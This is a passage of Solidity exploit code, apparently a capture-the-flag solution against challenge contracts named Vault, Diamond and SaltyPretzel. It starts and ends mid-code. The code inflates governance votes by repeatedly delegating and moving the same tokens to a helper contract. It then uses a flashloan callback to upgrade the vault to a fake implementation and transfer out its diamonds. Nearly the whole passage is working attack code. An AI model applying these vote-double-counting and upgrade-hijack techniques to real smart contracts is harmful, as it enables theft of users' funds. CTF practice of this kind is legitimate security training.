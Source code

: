 ```solidity
    }

    function exploit() public {
        // Create a contract contract to hoard votes
        VoteCollector voteCollector = new VoteCollector(setup);

        // Loop while VoteCollector has not enough votes
        while (saltyPretzel.getCurrentVotes(address(voteCollector)) < vault.AUTHORITY_THRESHOLD()) {
            // Add our votes to VoteCollector 
            saltyPretzel.delegate(address(voteCollector));

            // Set our delegatee to address(0)
            saltyPretzel.transfer(address(voteCollector), setup.SALTY_PRETZELS());
            saltyPretzel.delegate(address(0));

            // Regain our SaltyPretzel tokens
            saltyPretzel.transferFrom(address(voteCollector), address(this), setup.SALTY_PRETZELS());
        }

        // When VoteCollector has enough votes, steal the vault's diamonds
        voteCollector.stealDiamonds();
    }
}

contract VoteCollector {
    // Challenge contracts
    Setup public setup;
    Vault public vault;
    Diamond public diamond;
    SaltyPretzel public saltyPretzel;

    constructor(Setup _setup) {
        // Initialize challenge contracts
        setup = _setup;
        vault = setup.vault();
        diamond = setup.diamond();
        saltyPretzel = setup.saltyPretzel();

        // Allow the Exploit contract to transfer all of this contract's SaltyPretzel tokens
        saltyPretzel.approve(msg.sender, type(uint256).max);
    }

    function stealDiamonds() public {
        // Borrow a flashloan to temporarily set the vault's diamond balance to 0
        vault.flashloan(address(diamond), setup.DIAMONDS(), address(this));

        // After the vault is upgraded to FakeVault, transfer its diamonds to Setup
        FakeVault(address(vault)).transferDiamonds(address(setup));
    }

    function onFlashLoan(
        address,
        address,
        uint256,
        uint256,
        bytes calldata
    ) external returns(bytes32) {
        // Create a FakeVault contract
        FakeVault fakeVault = new FakeVault();

        // Upgrade the implementation of vault to FakeVault
```